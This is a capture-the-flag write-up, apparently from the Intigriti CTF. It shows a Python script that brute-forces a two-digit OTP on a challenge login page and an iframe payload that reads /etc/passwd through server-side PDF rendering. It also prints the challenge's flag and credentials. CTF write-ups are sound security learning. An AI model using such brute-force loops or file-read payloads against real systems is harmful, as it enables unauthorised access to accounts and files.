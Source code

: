 This challenge so guessy and take me hours to solve this. 
**Solution:**
When see this challenge i thought we do something xss with html2canvas lol. But seeing this challenge is misc i give up that. And use **feroxbuster** to see another hidden path is /artist. 
![image](https://hackmd.io/_uploads/HkCB8IwNT.png)
When see it i remember my teammate found a password in the image using zsteg. `Mich3l@ngel0$ist1n3!511`
But i try to fuzzing the username. And then the author hint the username. 
![image](https://hackmd.io/_uploads/rkunu8w4p.png)
So guessy hmm. So the username and the password is done now. The last one is OTP(This OTP at the beginning they set it 3 digit pin and then the solution is 2 digit).

**Final exploit script:**
```python!
import requests
import re

url = 'https://leekycomics.ctf.intigriti.io/artist_login'

def clean_html(html):
    clean = re.compile("<.*?>")
    return re.sub(clean, '', html)
for i in range (10,100):
    data = {
        'username': 'Picasso',
        'password': 'Mich3l@ngel0$ist1n3!511',
        'otp': i
    }
    response = requests.post(url, data=data)
    res = clean_html(response.text)
    if "Incorrect login." in res:
        print("Login failed: Incorrect login in: " + str(i))
    else:
        print("Login successful in: " + str(i))
        print(response.text)
        exit
```
![image](https://hackmd.io/_uploads/ryzsc8D4p.png)

Flag: `INTIGRITI{5up3r_53cr37_fl46_dr_l33k_r0ck5}`

### **7. My Music (Not Solve)**
- **Author:** holmesec
- **Caterogy:** Web
- **Description:** Checkout my new platform for sharing the tunes of your life! 🎶

This challenge i just solve the first part. And also the idea in second part but fail here.
**Solution:**
![image](https://hackmd.io/_uploads/rykFJpwVa.png)
This challenge give me a spotify track code. And then they generate to PDF so i think this can be Server Side XSS (Cross Site Scripting). After trying some payload in PayloadsAllTheThings, i see this payload works.
`<iframe src="file:///etc/passwd" width="1000" height="1000"></iframe>`.
So this can LFI to get the file. The structure looks like this.
![image](https://hackmd.io/_uploads/BJEuQ6vNT.png)
**Review code:**
In the app/routes/index.js i found this.
```javascript!
router.get('/admin', isAdmin, (req, res) => {
 res.render('admin', { flag: process.env.FLAG || 'CTF{DUMMY}' })
})
```